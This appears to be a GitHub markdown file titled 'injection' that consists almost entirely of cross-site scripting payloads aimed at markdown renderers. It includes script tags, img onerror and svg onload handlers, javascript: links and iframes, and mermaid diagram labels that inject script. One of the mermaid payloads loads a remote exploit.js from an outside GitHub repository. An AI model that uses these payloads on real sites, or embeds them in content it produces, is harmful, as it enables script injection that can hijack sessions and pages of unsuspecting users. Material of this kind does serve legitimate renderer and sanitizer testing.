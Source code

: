 # injection

pentest

<script>alert('XSS');</script>

![Broken Image](invalid.jpg ':size=250' )
<img src="invalid.jpg" onerror="alert('XSS')">

<svg onload="alert('XSS')"></svg>

<img src="valid-image.jpg" alt="test" title="XSS" onerror=alert('XSS')>

<img src="valid-image.jpg" alt="test" title="><script>alert('XSS')</script>">

<iframe src="javascript:alert('XSS');"></iframe>

[Click Me](javascript:alert('XSS'))

[malicious link](something"onmouseover="alert('XSS'))

## XSS Test
 ```mermaid
  graph LR
      B-->D(<img onerror=location=`javascript\u003aalert\u0028document.domain\u0029` src=x>);
 ```
## XSS Test 3
```mermaid  
%%{init: {"flowchart": {"htmlLabels": "false"}} }%%  
flowchart  
  A["<iframe srcdoc='<script src=https://github.com/vapt-cen1/injection/blob/main/exploit.js></script>'></iframe>"]  
```
## iFrames Test

<figure>
<iframe width="425" height="350" frameborder="0" scrolling="no" marginheight="0" marginwidth="0" src="https://i.ytimg.com/vi/-IXqbuMOwYg/hq720.jpg?sqp=-oaymwEcCNAFEJQDSFXyq4qpAw4IARUAAIhCGAFwAcABBg==&rs=AOn4CLDmcWpHub9FsBmp6vQgQTz0sWK14Q" style="border: 1px solid black"></iframe>
</figure>

<figure>
<iframe width="560" height="315" src="https://www.youtube.com/embed/-IXqbuMOwYg" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
</figure>
